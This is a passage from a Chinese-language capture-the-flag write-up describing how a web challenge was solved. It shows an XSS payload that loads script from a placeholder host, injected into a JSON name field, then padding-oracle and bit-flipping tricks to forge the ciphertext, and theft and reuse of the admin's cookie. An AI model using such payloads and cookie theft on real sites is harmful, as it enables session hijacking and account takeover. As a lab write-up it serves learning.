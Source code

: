 所以我们基本可以得到如下的对应关系：
- lastName: surname
- firstName: name
- origin: dep
- Gender: middle
- destination: dest
但是我们应该把 XSS Payload 放在哪儿呢？虽然我们可以一个一个尝试，但是毕竟太麻烦了，仔细观察题目页面内容我们可以大概找到如下一个提示（虽然看起来并不算什么提示）：

```
&lt;!--
&lt;h2&gt;Passenger data&lt;/h2&gt;
&lt;h3&gt;Name:&lt;/h3&gt;
&lt;h4&gt;qweqwe&lt;/h4&gt;
--&gt;
```

所以，我们可以尝试把 XSS Payload 注入到 JSON 的 Name 参数当中，例如：

```
`{`"name": "&lt;script src=http://your_url/?2&gt;&lt;/script&gt;", "surname": "1", "middle": "4", "time": "2021-07-26 13:37:00", "dest": "5", "dep": "3", "flight": "BLZH1337"`}`
```

但是我们需要注意的是，根据以上密码学知识，我们首先要在对应的生成密文的 API 处，生成一个 Name 长度与我们 XSS Payload 长度相同的密文，这样才能不至于解密出错。例如我们这里的 XSS Payload 长度为 40 ，所以我们也要生成一个 Name 参数长度为 40 的密文，也就是需要我们首先在生成密文的 API 传入一个长度为 40 的 firstName 参数，并且为了保证其他参数加载到页面时保证页面正常，我们最好不要改动其他字段，让其他字段保持默认值即可。（血泪教训

```
URL:
http://207.154.224.121:8080/finalize?lastName=1&amp;firstName=0000000000000000000000000000000000000000&amp;origin=3&amp;Gender=4&amp;destination=5

PlainText:
b'`{`"name": "0000000000000000000000000000000000000000", "surname": "1", "middle": "4", "time": "2021-07-26 13:37:00", "dest": "5", "dep": "3", "flight": "BLZH1337"`}`'
```

在我们得到密文后，我们接下来就需要使用 Padding Oracle 和字节翻转来改变密文对应的明文， 然后使用 base64 编码一下，再用 Aztec Code 编码转成图片，并通过 upload API 上传图片即可。最后，终于打到了 Admin ！

[![](https://p0.ssl.qhimg.com/t0128b098020f44a620.png)](https://p0.ssl.qhimg.com/t0128b098020f44a620.png)

拿到 Admin Cookie 以及对应页面内容之后，我们可以直接用 Admin Cookie 登录到该页面。登录之后，发现该页面只有一个搜索的功能，一开始我还以为是个套娃题，还要 SQL 注入，结果最后按照题目提示搜索了一下 Flagger 就拿到 flag 了…

[![](https://p0.ssl.qhimg.com/t01b0860ccb6e51db0e.png)](https://p0.ssl.qhimg.com/t01b0860ccb6e51db0e.png)

整体来说是个密码题，跟 Web 没多大关系～希望密码学选手看完后有所收获23333（因为 Web 部分纯白给，Web 选手就是帮检查检查哪里出错了，然后跑跑 exp ，等等 exp 就行了，该说不说，跑个 exp 还得跑个 1.5 小时，确实折磨～
